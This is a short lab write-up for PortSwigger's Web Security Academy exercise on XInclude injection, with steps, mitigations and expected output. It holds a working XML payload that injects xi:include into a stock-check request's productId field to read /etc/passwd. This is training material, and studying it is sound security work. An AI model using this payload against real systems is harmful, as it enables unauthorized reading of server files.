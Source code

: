 # 🛡️ Lab: Exploiting XInclude to Retrieve Files

**Lab URL:** [PortSwigger Web Security Academy](https://portswigger.net/web-security/xxe/lab-xinclude-attack)  
**Category:** XML External Entity (XXE)  
**Difficulty:**  Practitioner  
**Lab Goal:** Use an XInclude injection to extract the contents of the `/etc/passwd` file.


##  Steps to Reproduce

1. Go to any product page and click the **"Check stock"** button.
2. Intercept the resulting **POST request** using **Burp Suite**.
3. Modify the `productId` field to inject an `xi:include` directive.


##  Payload

```xml
<productId xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include href="file:///etc/passwd" parse="text"/>
</productId>
```


## Expected Result

- The application includes the contents of `/etc/passwd` in the response.
- You should see user entries like `root:x:0:0:root:/root:/bin/bash`.

##  Key Takeaway

When classic XXE is not possible due to limited XML control, **XInclude injection** can be used as an alternative to retrieve local files, exposing sensitive system information.


##  Mitigation

- Disable XInclude processing in your XML parser configuration.
- Use secure parsers that do not resolve file-based references.
- Sanitize all user input and avoid embedding raw input into XML documents.


##  Author

`vgod-sec`   
🔗 GitHub: [https://github.com/vgod-sec](https://github.com/vgod-sec)
